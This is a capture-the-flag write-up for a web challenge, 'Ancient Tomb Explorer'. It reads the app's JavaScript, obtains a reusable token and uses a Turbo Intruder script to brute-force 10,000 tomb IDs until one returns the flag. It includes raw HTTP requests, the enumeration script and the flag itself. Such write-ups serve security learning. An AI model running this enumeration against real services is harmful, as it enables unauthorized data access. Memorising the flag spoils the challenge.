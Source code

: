 # Intro
![](../img/Ancient_Tomb_Explorer.png)


# Information gathering
Start by accessing the application. Here a small introduction is displayed telling the user that a "ancient" token is needed to open the tombs and the key to escape (guessing the flag) is in one of the tombs. This is also shown when clicking a tomb button, a error message is displayed telling the user a key is needed to open the tomb.  
![](../img/Ancient_Tomb_Explorer_App.png)
![](../img/Ancient_Tomb_App_Click_Tomb.png)
There are 10000 tomb buttons in the app. And clicking through some random buttons the same error message is shown to the user. 


Start by looking through the source code to see if any hints of how this "token"  could be obtained. And this JavaScript function could be found in the sources for the application.
```javascript
// Function to get a new token from the API
    function getNewToken() {
        fetch('/api/token', {
            method: 'POST',
        })
        .then(response => response.json())
        .then(data => {
            if (data.token) {
                currentToken = data.token;
                tokenInput.value = currentToken;
                localStorage.setItem('tombToken', currentToken);
                showResponse({ message: 'New token received', token: currentToken });
            } else {
                showResponse({ error: 'Failed to get token', details: data });
            }
        })
        .catch(error => {
            showResponse({ error: 'Failed to get token', details: error.message });
        });
    }
```
The comment and function tells us this is used to get a new token from the API. This tells that to get a token:
- The endpoint to use ```/api/token```.
- The request should be a ```POST``` request.
- No special body or headers is needed in the request.

Another function is also found in the sources. This function is tells how to "explore a tomb". 
```javascript
// Function to explore a tomb by ID
    function exploreTomb(tombId) {
        // Highlight the selected tomb with null check
        document.querySelectorAll('.tomb-cell.clicked').forEach(cell => {
            cell.classList.remove('clicked');
        });
        
        const selectedCell = document.querySelector(`.tomb-cell[data-id="${tombId}"]`);
        if (selectedCell) {
            selectedCell.classList.add('clicked');
        } else {
            console.error(`Tomb cell with ID ${tombId} not found`);
        }
        
        // Make API request to get tomb content
        fetch(`/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}`)
        .then(response => {
            if (!response.ok) {
                throw new Error(`HTTP error! Status: ${response.status}`);
            }
            return response.json();
        })
        .then(data => {
            showResponse(data);
        })
        .catch(error => {
            showResponse({ error: 'Failed to explore tomb', details: error.message });
            console.error('API error:', error);
        });
    }
```
The ```fetch``` part tells how the request to explore a tomb should be formatted:
- The endpoint to use ```/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}```.
- The parameters ```tombId``` and ```currentToken``` is needed in the URI.
- The request should be a ```GET``` request (default for ```fetch``` is ```GET```).

So the plan is to get a token by making a ```POST``` request to ```/api/token``` to get a token to be use to open the tombs. The token is sent as the ```currentToken``` parameter when opening the tomb with a ```GET``` request to ```/api/tomb/${tombId}``` endpoint. The ```tombId``` is the number that is on the tomb-button, show in the request when clicking the button. Example: Clicking the tomb-button 311 generates this request.
```http
GET /api/tomb/311?token=none HTTP/1.1
Host: 134.122.88.8:5002
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[...]
```

Testing the intended "flow" of the application:
Request:  
```http
```http
POST /api/token HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Response:  
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:50:43 GMT
Content-Type: application/json
Content-Length: 26
Connection: close

{"token":"key-174619384"}
```

Open a tomb request with the token:  
```http
GET /api/tomb/1?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:02 GMT
Content-Type: application/json
Content-Length: 44
Connection: close

{"content":"Tomb 1 is empty!","tombId":"1"}
```

Testing another tomb with the same token:
```http
GET /api/tomb/123?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:13 GMT
Content-Type: application/json
Content-Length: 48
Connection: close

{"content":"Tomb 123 is empty!","tombId":"123"}
```

This shows that the token is reusable, no new token is needed to open multiple tombs.
# Attack
To go through all 10000 tombs a tool like Turbo Intruder in BurpSuite could be used to automate the request, but first a token is needed. 

Using Turbo Intruder in BurpSuite. Using the ```examples/default.py``` as starting point the script loop through numbers from 1 to 10000 making a request replacing the ```%s``` parameter in the request with the current number in the loop. 
GET request:
```http
GET /api/tomb/%s?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Python script:
```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for x in range(1, 10001):
        engine.queue(target.req, x)


def handleResponse(req, interesting):
    print(req)
    table.add(req)
```

Running the script in Turbo Intruder.
One request in the list of results stands out from the others in length.
![](../img/Ancient_Tomb_Explorer_Turbo_Intruder_Results.png)

The tomb 3367 responds with the flag:
```http
GET /api/tomb/3367?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:59 GMT
Content-Type: application/json
Content-Length: 61
Connection: close

{"content":"flag O24{Lar4_w0Uld_b3_PRouD!}","tombId":"3367"}